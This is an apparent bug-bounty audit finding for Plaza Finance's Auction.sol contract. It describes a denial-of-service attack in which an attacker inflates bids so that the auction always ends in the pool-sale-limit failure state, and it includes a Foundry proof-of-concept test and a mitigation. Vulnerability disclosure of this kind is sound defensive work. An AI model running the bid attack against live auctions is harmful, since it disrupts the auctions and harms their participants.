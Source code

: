 Acrobatic Parchment Halibut

High

# An attacker will manipulate bids to disrupt the auction, impacting the auction participants.

### Summary

# Summary

```solidity
function endAuction() external auctionExpired whenNotPaused {
  if (state != State.BIDDING) revert AuctionAlreadyEnded();

  if (currentCouponAmount < totalBuyCouponAmount) {
    state = State.FAILED_UNDERSOLD;
  } else if (**totalSellReserveAmount >= (IERC20(sellReserveToken).balanceOf(pool) * poolSaleLimit) / 100**) {
      state = State.FAILED_POOL_SALE_LIMIT;
  } else {
    state = State.SUCCEEDED;
    Pool(pool).transferReserveToAuction(totalSellReserveAmount);
    IERC20(buyCouponToken).safeTransfer(beneficiary, IERC20(buyCouponToken).balanceOf(address(this)));
  }

  emit AuctionEnded(state, totalSellReserveAmount, totalBuyCouponAmount);
}
```
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L341-L343

When the auction ends and the `endAuction` function is executed, it changes the state of the auction depending on the conditions.

If the `totalSellReserveAmount` is greater than the pool's token * **poolSaleLimit** / 100, the state is changed to `FAILED_POOL_SALE_LIMIT`.

https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L367-L376

A malicious user can create a valid bid before the auction ends, causing the status to always be set to FAILED_POOL_SALE_LIMIT, and use the refund function to safely escape with the tokens used.

### Root Cause

In Action.sol:250, there is a missing check on totalSellReserveAmount

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

1. anyone calls bid function before auction ends
The attacker must make the totalSellReserveAmount higher than (IERC20(sellReserveToken).balanceOf(pool) * poolSaleLimit) / 100. Additionally, they should be aware that bids made at too low a price may be deleted, so they need to consider this when creating a bid.

### Impact

The auction always fails, resulting in refunds only.

### PoC
```solidity
function testDOS() public {
  // Place a bid that would require too much of the reserve
  vm.startPrank(bidder);
  usdc.mint(bidder, 1000000000000 ether);
  usdc.approve(address(auction), 1000000000000 ether);
  auction.bid(480000000000 ether, 100000000000); // 96% of pool's reserve
  
  auction.bid(480000000000000000 ether, auction.totalBuyCouponAmount() - auction.currentCouponAmount());
  // DOS
  vm.stopPrank();

  // End the auction
  vm.warp(block.timestamp + 15 days);

  auction.endAuction();

  // Check that auction failed due to too much of the reserve being sold
  assertEq(uint256(auction.state()), uint256(Auction.State.FAILED_POOL_SALE_LIMIT));
}
```
### Mitigation

Add code to the removeExcessBids function to validate the totalSellReserveAmount, ensuring it does not fail.

```solidity
require(totalSellReserveAmount < (IERC20(sellReserveToken).balanceOf(pool) * poolSaleLimit) / 100, "totalSellReserveAmount is invalid");
```
